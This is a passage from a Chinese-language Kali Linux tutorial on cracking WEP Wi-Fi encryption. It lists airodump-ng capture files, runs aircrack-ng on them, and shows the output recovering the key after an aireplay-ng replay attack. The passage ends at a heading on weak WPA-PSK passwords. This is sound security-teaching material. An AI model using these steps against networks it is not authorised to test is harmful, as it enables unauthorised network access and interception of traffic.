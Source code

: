 与此同时`airodump-ng`回收到大量的数据包, 文件都存放在以wireless开头的文件中

```bash
root@kali:~# ls
Desktop                     wireless-01.csv            wireless-04.csv
Document                    wireless-01.kismet.csv     wireless-04.kismet.csv
Download                    wireless-01.kismet.netxml  wireless-04.kismet.netxml
Music                       wireless-01.log.csv        wireless-04.log.csv
Picture                     wireless-02.cap            wireless-05.cap
Public                      wireless-02.csv            wireless-05.csv
replay_arp-1123-173943.cap  wireless-02.kismet.csv     wireless-05.kismet.csv
replay_arp-1123-174537.cap  wireless-02.kismet.netxml  wireless-05.kismet.netxml
replay_arp-1123-205436.cap  wireless-02.log.csv        wireless-05.log.csv
replay_arp-1123-205644.cap  wireless-03.cap            wireless-06.cap
replay_arp-1123-205719.cap  wireless-03.csv            wireless-06.csv
replay_arp-1123-205802.cap  wireless-03.kismet.csv     wireless-06.kismet.csv
Template                    wireless-03.kismet.netxml  wireless-06.kismet.netxml
Video                       wireless-03.log.csv        wireless-06.log.csv
wireless-01.cap             wireless-04.cap
```

现在使用`aircreak-ng`破解密钥

```bash
root@kali:~# aircrack-ng wireless-*.cap


                                          Aircrack-ng 1.5.2 


                             [00:00:02] Tested 51953 keys (got 94379 IVs)

   KB    depth   byte(vote)
    0    0/  1   AB(129536) A6(110848) 17(107264) 91(107008) 1E(105472) ED(105472) B5(105216) 
    1    0/  1   CD(143872) E8(108544) 17(107008) 8C(106240) 9C(105472) 21(104448) 83(104192) 
    2    0/  1   EF(124928) B8(110848) F4(107008) A7(105472) 07(105216) 9C(103936) 3B(103680) 
    3    0/  1   AB(124928) 7E(109056) E7(107520) D0(107264) FC(105984) B2(105472) 57(105216) 
    4    0/  1   CF(123904) 2E(108288) BE(106752) E5(106240) 0E(104704) 98(104704) 9F(104448) 
    5    0/  1   DE(120064) B4(106752) F3(104704) CE(104448) 32(103680) B9(103680) 11(103424) 
    6    0/  1   D1(132096) CC(108544) 59(108032) C3(107008) DE(106496) D8(105984) 09(105728) 
    7    0/  1   2A(125184) 05(111104) AB(109824) 8A(105984) B5(105984) AD(105728) 97(105216) 
    8    0/  1   CD(121856) 26(108032) 5A(107008) CA(106240) 2C(105216) FE(105216) 18(104192) 
    9    0/  1   FD(122880) 5E(105472) E9(104960) A3(104704) E4(103936) 20(103168) 24(103168) 
   10    1/  1   81(106752) 40(105216) 80(104192) F7(103936) C8(103680) 1A(103424) 0E(103168) 
   11    2/  1   65(105216) 46(104448) 7D(103680) 81(103680) 33(103424) B1(103168) DE(103168) 
   12    0/  1   CA(110344) 17(106452) 14(105968) 22(105148) F0(104824) A8(104500) 0F(104116) 

             KEY FOUND! [ AB:CD:EF:AB:CF:DE:D1:2A:CD:FD:CA:EF:CA ] 
	Decrypted correctly: 100%
```

破解成功, 总结`airodump-ng` 采集WEP数据包, `aireplay-ng` 执行重放攻击 `aircrack-ng`破解WEP密钥

### WPA-PSK弱密码
